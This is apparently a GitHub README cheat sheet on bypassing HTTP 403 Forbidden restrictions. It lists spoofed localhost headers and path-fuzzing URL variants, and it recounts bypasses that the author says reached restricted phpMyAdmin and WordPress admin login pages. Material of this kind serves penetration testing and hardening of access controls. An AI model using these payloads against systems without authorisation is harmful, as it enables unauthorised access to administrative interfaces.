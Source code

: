 # Awesome Bypass 403 - Forbidden :no_entry:

- **Introduction**

Depending on the configuration made by the infrastructure analyst, there are some ways to get past the 403-forbidden error generally by configuring when you should not be allowed to access certain resources of that directory or file.

I created this quick document to demonstrate some techniques for this, including, I already used it and managed to pass the **403 error** and access database administrative login pages.

<p align="center">
  <img width="600" height="300" src="https://miro.medium.com/max/2800/0*tx6bHhEGLQcPQqC_.png">
</p>
<br>

## Some techniques :page_facing_up:


 #### <span style="color:red">Attention</span> :bangbang:

Before using the techniques below, it is worth changing the HTTP methods for each attempt, such as GET, POST, PATCH, OPTIONS, TRACE...

1. Method ***HTTP Headers Fuzzing***

In some cases, access to pages and private files can be done by changing the ***Header*** of the request and including an internal address, here are some examples;

- X-ProxyUser-Ip: 127.0.0.1
- Client-IP: 127.0.0.1
- Host: localhost
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Real-IP: 127.0.0.1

2. Method ***Path Fuzzing***

We can try to make some changes to the url, using special characters or including HTML encoding, exemples;

- test.com/admin/*
- test.com/*admin/
- test.com/%2fadmin/
- test.com%2fadmin%2f
- test.com/./admin/
- test.com//admin/./
- test.com///admin///
- test.com//admin//
- test.com/ADMIN/
- test.com/;/admin/
- test.com//;//admin/

## Real example 1 of Bypass

The example below is a bypass used in the phpmyadmin console, configured to be accessed only with specific IP x.x.x.x the context /phpmyadmin/

I made some attempts changing the context, example;

- /phpmyadmin/*
- /./phpmyadmin/
- //phpmyadmin//
- /*/phpmyadmin/

<p align="center">
  <img width="600" height="250" src="./img/403.JPG">
</p>

However, without success :(

After a few attempts to pass the 403, I tried changing the context to;

- **<span style="color:red;">///phpmyadmin///</span>**

<p align="center">
  <img width="600" height="250" src="./img/bypass.JPG">
</p>

In this case using 3 slashes (///), we managed to pass the 403 error and access the phpmyadmin login page. :ok_hand:

## Real example 2 of Bypass

In this example, we access the wordpress login panel using, in this case, 2 slashes (//).

In this url, we couldn't use the same context with 3 slashes, however, we managed using another change in the context.

<p align="center">
  <img width="600" height="250" src="./img/403-wp.JPG">
</p>

Using the context below
- **<span style="color:red;">//wp-admin//</span>**

<p align="center">
  <img width="600" height="400" src="./img/bypass-wp.JPG">
</p>
<br>

## Tool Tip :white_check_mark:

Some developers who created some tools to facilitate the identification of possible pages that we managed to pass the 403 error. The github project below (***iamj0ker***) was tested and we were able to validate some prohibited entries.

[github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)

For those who use **Burpsuite Professional**, there is a plugin in the store to validate contexts with denied permissions, called **403 Bypasser**.

[403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)

To find possible directories with 403 permissions, we can perform a bruteforce of directories and files using **Dirsearch**.

[Dirsearch](https://github.com/maurosoria/dirsearch)


<a href="https://asciinema.org/a/380112" target="_blank"><img src="https://asciinema.org/a/380112.svg" /></a>
